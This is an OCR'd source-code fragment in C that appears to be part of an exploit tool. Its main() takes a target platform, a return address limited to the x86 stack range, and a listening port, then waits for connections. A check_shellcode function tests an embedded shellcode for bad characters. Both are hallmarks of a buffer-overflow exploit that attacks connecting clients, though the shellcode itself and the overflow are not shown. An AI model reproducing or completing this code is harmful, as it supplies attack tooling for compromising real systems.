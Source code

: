 
    int
    main(int argc,char *argv[])
    {
      int i, option, port = D_PORT;
      long host = 0;
      char * option_list = "f:p:r:t:", path[128];

      opterr = 0;

      if (argc < 2) die(argv[0]);
      while((option = getopt(argc,argv,option_list)) != -1)
        switch(option)
        {
          case 'f':
          strncpy(path,optarg,sizeof(path)-1);
          path[sizeof(path)-1] = '\0';
          create_file(path);
          return 0;
          case 'p':
          port = atoi(optarg);
          if(port > 65535 || port < 0) exit(-1);
          break;
          case 'r':
          ret_addr = atol(optarg);
          if(ret_addr > 0xbfffffff || ret_addr < 0x00000000) exit(1);
          break;
          case 't':
          for(i=0; exp_os[i].plat != NULL; i++)
          if(atoi(optarg) > i || atoi(optarg) < 0)
          {
            fprintf(stderr," Platforms supported are:\n");
            for(i=0; exp_os[i].plat != NULL; i++)
              fprintf(stderr," num: %i - %s - 0x%x\n",i,exp_os[i].plat,exp_os[i].ret);
              exit(1);
          }
          ret_addr = exp_os[atoi(optarg)].ret;
          break;
          case '?':
          fprintf(stderr,"[-] option \'%c\' invalid\n",optopt);
          die(argv[0]);
        }

      wait_connection(port);
      return 0;
    }


    int
    check_shellcode(char *host)
    {
      int i,j;
      for(i=0;i<strlen(shellcode);i++)
        for(j=0;j<strlen(badc0ded);j++)
          if(shellcode[i] == badc0ded[j])
          {
          fprintf(stderr,"[%s] badc0ded shellcode!\n",host);
          return -1;
          }
      return 0;
    }
